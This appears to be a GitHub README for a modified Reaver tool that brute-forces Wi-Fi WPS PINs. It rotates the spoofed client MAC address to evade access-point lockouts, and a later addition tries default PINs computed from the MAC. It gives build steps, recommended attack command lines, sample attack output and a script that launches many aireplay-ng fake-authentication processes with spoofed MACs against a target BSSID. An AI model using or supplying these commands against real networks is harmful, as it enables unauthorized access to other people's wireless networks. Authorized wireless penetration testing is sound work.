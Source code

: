 REAVER WPS WITH MAC CHANGER
==============

REAVER WPS modified version with MAC Address last character changer to speed up the attack.

Well, some times the AP will reject the "EAPOL Request" after a success pin try. I made some tests with simultaneous reaver instances running with different MACs (the -m argument), and when one instance gets "WARNING: Receive timeout occurred", the other gets "Received identity request" and continue the cracking.

The problem of this method is: The reaver tool doesn't support simultaneous instances (ok, I read the FAQ about it). If you run two reaver instances, by example, the two instances will try the same pin at the same time.

I made some changes on the reaver source code. Look the output after my changes:

```
[+] Using MAC BC:99:47:B7:03:E9
[+] Trying pin 00485678
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E8
[+] Trying pin 00495677
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E7 
[+] Trying pin 00505673
...
```

On the first try, reaver is using the client MAC "BC:99:47:B7:03:E9" (it is not a real MAC, I'm just using for the example), on the second, "BC:99:47:B7:03:E8", on the third, "BC:99:47:B7:03:E7". Well, after the use of the MAC "BC:99:47:B7:03:E0", reaver will start again on "BC:99:47:B7:03:E9".

The numbers:

With this method: (13 seconds/pin)
Without this method: (31 seconds/pin)

How to install
==============

Extract the tarball

```bash
    tar -xzvf reaver-1.4-mac-changer.tar.gz
```

Install Required Libraries and Tools

```bash
    sudo apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev
```

Build Reaver

```bash
    cd reaver-1.4-mac-changer
    cd src
    ./configure
    make
```

Install Reaver

```bash
    sudo make install
```

How to use
==============

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF -M
```

or

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer
```

What I recommend:

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer --no-nacks --win7 --no-associate -vv
```

To associate more effectively, I recommend to use aireplay-ng tool. Create a "associate.sh" file, and put this inside:

```bash
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZF  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZE  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZD  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZC  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZB  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZA  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z9  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z8  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z7  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z6  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z5  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z4  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z3  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z2  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z1  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z0  &
```

PS: Change AA:BB:CC:DD:EE:FF to the BSSID and ZZ:ZZ:ZZ:ZZ:ZZ:Z to your MAC (without the last digit).

Before using reaver tool, just type "sh associate.sh". To kill all the aireplay-ng, type "killall aireplay-ng".

If you have success using this method, please, share with us to improve more and more the reaver WPS.

Added by kib0rg
==============
implemented option (-j or --try-default-pin) to try possible default pin via MAC conversion from hex to dec
-j, --try-default-pin Try the possible default pin (hex to dec conversion) [False]

Author
==============

[@gabrielrcouto](http://www.twitter.com/gabrielrcouto)


License
==============

[MIT License](http://zenorocha.mit-license.org/)
